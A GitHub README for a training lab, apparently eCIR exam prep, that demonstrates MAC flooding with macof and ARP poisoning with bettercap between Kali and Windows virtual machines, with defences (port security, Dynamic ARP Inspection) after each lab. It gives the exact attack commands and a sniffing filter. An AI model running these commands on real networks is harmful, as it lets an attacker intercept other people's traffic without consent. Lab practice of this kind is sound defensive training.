 # Datalink-Layer-Attacks-LAB
Cybersecurity attacks LABs (eCIR Prep)
# 🧠 Network Attacks Lab – MAC Flooding & ARP Poisoning (Kali Linux)

## 📌 Lab Overview

This repository contains two mini labs:

1. **MAC Flooding Attack** using `macof` to overflow switch CAM tables.
2. **ARP Poisoning Attack** using `bettercap` to intercept traffic between victim and gateway.

---

## 🛠️ Tools Used

- Kali Linux (Attacker)
- Windows 10 (Victim)
- macof (dsniff)
- bettercap
- Wireshark
- VMware Workstation (Dual NIC Setup - NAT + Host-Only)

---

## 🧪 Lab 1: MAC Flooding

### 🔧 Topology

```
[ Kali Linux ] -- Host-Only Network -- [ Windows Victim ]
```

### 🚀 Steps

1. Configure both VMs with:
   - Adapter 1: NAT
   - Adapter 2: Host-Only

2. Run MAC flooding from Kali:
   ```bash
   sudo macof -i eth1
   ```

3. Capture traffic in Wireshark using:
   ```wireshark
   !(eth.src == YOUR_MAC || eth.dst == YOUR_MAC)
   ```

4. Success when packets not destined for attacker are visible.
---

 💡 Solution >> Enable Port Security  + Reserve MAC Address of Netowrk's PCs on the Switch Table (CAM Table)
---


## 🧪 Lab 2: ARP Poisoning

### 🔧 Topology

```
[ Kali Linux ] -- Host-Only Network -- [ Windows Victim ] -- Gateway
```

### 🚀 Steps

1. Identify victim and gateway IPs:
   ```bash
   net.probe on
   net.show
   ```

2. Set target in bettercap:
   ```bash
   set arp.spoof.targets [victim_ip]
   arp.spoof on
   net.sniff on
   ```

3. Success when sniffed traffic includes victim-gateway communication.

---

💡 Solution >> Enable Dynamic ARP Inspection on the switch (DAI)
---

## 📬 Author

**Adham Hani**  
Security Enthusiast | SOC Trainee | DFIR Student

---

## 🔒 Disclaimer

> These labs are for **educational purposes only**. Do not perform attacks on unauthorized networks.
